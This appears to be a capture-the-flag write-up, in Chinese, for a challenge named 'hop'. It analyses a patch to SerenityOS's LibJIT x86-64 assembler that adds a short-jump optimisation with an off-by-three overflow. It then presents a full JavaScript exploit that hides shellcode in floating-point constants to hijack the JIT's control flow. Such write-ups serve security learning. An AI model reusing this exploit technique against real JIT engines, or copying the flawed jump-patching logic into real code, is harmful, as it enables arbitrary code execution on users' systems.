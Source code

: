 # hop

## patch analysis

给出的patch如下。
```
Base: https://github.com/SerenityOS/serenity/tree/fbde901614368dcf03d4a8eee800d8b89131465f

diff --git a/Userland/Libraries/LibJIT/X86_64/Assembler.h b/Userland/Libraries/LibJIT/X86_64/Assembler.h
index 79b96cf81f..465c4cb38c 100644
--- a/Userland/Libraries/LibJIT/X86_64/Assembler.h
+++ b/Userland/Libraries/LibJIT/X86_64/Assembler.h
@@ -472,12 +472,23 @@ struct X86_64Assembler {
     private:
         void link_jump(X86_64Assembler& assembler, size_t offset_in_instruction_stream)
         {
-            auto offset = offset_of_label_in_instruction_stream.value() - offset_in_instruction_stream;
+            auto offset = static_cast<ssize_t>(offset_of_label_in_instruction_stream.value() - offset_in_instruction_stream);
             auto jump_slot = offset_in_instruction_stream - 4;
-            assembler.m_output[jump_slot + 0] = (offset >> 0) & 0xff;
-            assembler.m_output[jump_slot + 1] = (offset >> 8) & 0xff;
-            assembler.m_output[jump_slot + 2] = (offset >> 16) & 0xff;
-            assembler.m_output[jump_slot + 3] = (offset >> 24) & 0xff;
+            if (offset <= INT8_MAX && offset >= INT8_MIN && assembler.m_output[jump_slot - 1] == 0xE9) {
+                auto small_offset = static_cast<int8_t>(offset + 3);
+                // JMP rel8
+                assembler.m_output[jump_slot - 1] = 0xEB;
+                assembler.m_output[jump_slot + 0] = small_offset;
+                // NOP3_OVERRIDE_NOP
+                assembler.m_output[jump_slot + 1] = 0x0F;
+                assembler.m_output[jump_slot + 2] = 0x1F;
+                assembler.m_output[jump_slot + 3] = 0x00;
+            } else {
+                assembler.m_output[jump_slot + 0] = (offset >> 0) & 0xff;
+                assembler.m_output[jump_slot + 1] = (offset >> 8) & 0xff;
+                assembler.m_output[jump_slot + 2] = (offset >> 16) & 0xff;
+                assembler.m_output[jump_slot + 3] = (offset >> 24) & 0xff;
+            }
         }
     };
 
```

该patch针对Serenity LibJS的JIT Compiler，当通过设定环境变量LIBJS_JIT启用JIT时，得到的JIT代码如果包含long jump，则将其修改为short jump指令。修改的方法为，如果在long jump的offset在INT8的范围内，则将offset加上3，并修改跳转指令为short jump指令。否则，将offset的四个字节全部写入跳转指令中。

这里存在一个问题，offset若为0x7D-0x7F，加3之后产生溢出，导致跳转指令变成负数，从而回跳到之前的位置执行，如果这一位置上存在我们布置好的数据，就能成功劫持控制流。

## 利用

利用方式就是尽量构造出一个long jump指令，并且使得它的offset在0x7D-0x7F之间。

通过一些尝试，我成功用下面的代码劫持了控制流：

```js
function func(a) {
  label: if (a == 1) {
    let a1 = 1;
    let a2 = 1;
    let a3 = 1;
    let a4 = 1;
    break label;
  }
  label2: if (a == 1) {
    let a1 = 1;
    break label2;
  }
  let a2 = 1;
  let a3 = 1;
  let a4 = 1.06296825408935569079460492503E0;
  let a5 = 1;
  let a6 = 1;
  return 0x78537865;
}
```

上面的代码会导致程序执行下面的指令。

![alt text](images/image.png)

接下来的工作是写入shellcode并搭配合适的跳转指令，使得程序能够完整执行shellcode。可以写入shellcode的位置包括a2-a6，最终的exp如下。

```js
function func(a) {
  label: if (a == 1) {
    let a1 = 1;
    let a2 = 1;
    let a3 = 1;
    let a4 = 1;
    break label;
  }
  label2: if (a == 1) {
    let a1 = 1;
    break label2;
  }
  let a2 = 5.27353071347005312808470611646e-179;
  let a3 = 8.73802723135704617618557676906e-1;
  let a4 = 1.10715770873430208176557698607;
  let a5 = 4.17238737852872382678707803996e-150;
  let a6 = 2.63486047652296056448306022844e-284;
  return 0x78537865;
}

for (var i = 0; i < 0x100000; i++) {
  func(false);
  func(false);
  func(false);
  func(false);
}

func(true);
```

 
